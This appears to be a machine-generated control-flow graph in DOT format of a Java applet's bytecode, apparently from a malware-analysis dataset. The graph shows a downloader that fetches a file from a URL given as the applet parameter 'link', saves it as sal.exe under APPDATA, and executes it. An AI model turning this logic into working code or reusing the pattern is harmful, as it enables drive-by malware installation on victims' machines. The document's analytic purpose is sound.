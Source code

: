 digraph "" {
    "r0 := @this: Java"
    "push \"APPDATA\""
    "r0 := @this: Java"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "push \"\\sal.exe\""
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"push \"\\sal.exe\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"\\sal.exe\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "store.r r2"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"store.r r2";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r2"->"staticget <java.lang.System: java.io.PrintStream out>";
    "load.r r2"
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r2";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "load.r r0"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"link\""
    "load.r r0"->"push \"link\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"link\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"load.r r2";
    "virtualinvoke <Java: void download(java.lang.String,java.lang.String)>"
    "load.r r2"->"virtualinvoke <Java: void download(java.lang.String,java.lang.String)>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <Java: void download(java.lang.String,java.lang.String)>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "store.r r0"
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r2";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"store.r r0";
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
}
